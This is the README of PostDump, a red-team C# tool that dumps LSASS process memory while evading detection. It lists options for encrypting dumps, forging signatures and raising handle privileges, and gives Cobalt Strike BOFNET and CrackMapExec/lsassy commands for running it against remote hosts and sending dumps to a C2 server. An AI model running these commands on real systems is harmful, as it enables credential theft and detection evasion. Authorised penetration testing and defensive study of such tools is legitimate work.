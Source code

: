 # PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

![screenshot](resources/demo.png)

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.

Works on x64 only.

## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        output filename [default: Machine_datetime.dmp]

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate invalid Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.



## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump
- import the BOFNET .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`


## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`


## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)


## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too


## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
